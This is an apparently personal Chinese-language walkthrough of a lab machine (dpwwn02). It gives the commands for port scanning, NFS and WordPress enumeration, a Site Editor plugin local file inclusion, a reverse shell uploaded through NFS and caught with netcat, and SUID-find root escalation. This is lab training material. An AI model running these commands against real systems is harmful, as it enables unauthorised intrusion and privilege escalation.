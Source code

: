 ## 靶机信息
级别:中等++
禁用DHCP，静态IP 10.10.10.10

## Recon
```shell
sudo nmap -sT -p- --min-rate 10000 10.10.10.10 -oA tcp_scan/ports
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
443/tcp   open  https
2049/tcp  open  nfs
40931/tcp open  unknown
45659/tcp open  unknown
49583/tcp open  unknown
50579/tcp open  unknown
```

## nfs
```shell
showmount -e 10.10.10.10
/home/dpwwn02 (everyone)
kali改为host only之后mount nfs，共享的文件夹没有什么内容
```

## Web
![[Pasted image 20231014161400.png]]
### 目录爆破

```shell
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt
```
![[Pasted image 20231014161457.png]]

## wordpress
### 枚举
```shell
wpscan --url http://10.10.10.10/wordpress -e at -e ap -e u
```

![[Pasted image 20231014162448.png]]
看到插件信息
```shell
searchsploit site-editor 1.1.1
```
![[Pasted image 20231014162524.png]]
![[Pasted image 20231014162701.png]]

```shell
尝试进行利用
http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
![[Pasted image 20231014162752.png]]
成功执行了/etc/passwd

## 通过LFI和nfs获取立足点
```shell
将reverse shell上传到mount的目录中
sudo cp /home/kali/Vulnhub/dpwwn2/shell.php .
nc -lvnp 1234
http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/home/dpwwn02/shell.php
得到立足点
```

## 提权
```shell
find / -type f -perm -u=s 2>/dev/null
/usr/bin/find

find . -exec chmod u+s /bin/bash \; -quit
bash -p 
```
![[Pasted image 20231014165201.png]]


